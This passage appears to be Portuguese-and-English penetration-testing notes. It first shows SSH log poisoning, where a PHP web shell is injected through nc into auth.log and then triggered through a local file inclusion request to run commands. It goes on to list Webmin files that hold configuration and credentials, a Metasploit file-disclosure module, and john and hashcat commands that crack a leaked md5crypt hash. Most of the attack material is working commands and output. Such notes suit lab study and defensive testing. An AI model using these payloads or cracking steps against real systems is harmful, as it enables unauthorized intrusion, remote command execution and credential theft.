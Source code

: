 obs: no caso do ssh, ele não permite o envio de caracteres especiais, então então envie o payload via nc e isso vai gerar um log
```
nc -v 172.16.1.177 22                 
172.16.1.177 [172.16.1.177] 22 (ssh) open
SSH-2.0-OpenSSH_5.5p1 Debian-6+squeeze5
<?php system($_GET["hack"]);?>
Protocol mismatch.


GET /lfi.php?file=/var/log/auth.log&hack=ls+-la
```

https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/


## webmin
**Webmin** is a web-based server management control panel for Unix-like systems.
**Arquivos de Configuração do Webmin**:
```
/etc/webmin/miniserv.conf  # Contém configurações do servidor Webmin, como portas, SSL e permissões.  

/etc/webmin/miniserv.users # Contém usuários e senhas (em formato hash) do Webmin.
 
/etc/webmin/config # Contém configurações globais do Webmin.


/var/webmin/webmin.log 
/etc/webmin/webmin.groups
```
Na documentação diz que o path pode ser `/etc/usermin/miniserv.conf`, dando a entender que **dependendo do usuário pode mudar o path**
	No freebsd por exemplo o path é `/usr/local/etc/webmin`

**file disclosure:**
msfconsole module: admin/webmin/file_disclosure no path `/etc/webmin/miniserv.conf`
```
admin:$1$XXXXXXXX$WHEbJtn2Q0oxB3s4C6osu1:0
```


### hash crack example
cracking with john
```
# example
admin:$1$XXXXXXXX$WHEbJtn2Q0oxB3s4C6osu1:0 # hash.txt

john --format=md5crypt hash.txt # cracking
```

**cracking with hashcat:**
With hashcat, we need to remove `admin:` and the `:0` and left only the hash `$1$XXXXXXXX$WHEbJtn2Q0oxB3s4C6osu1`
```
# hash.txt
$1$XXXXXXXX$WHEbJtn2Q0oxB3s4C6osu1

# cracking
hashcat -m 500 hash.txt [path_to_wordlist]

hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt --show
$1$XXXXXXXX$WHEbJtn2Q0oxB3s4C6osu1:admin123456

```
notice, we remove the username `admin` from the hash.txt and the hashcat output only the password `admin123456`. For this reason we should make notes and save the username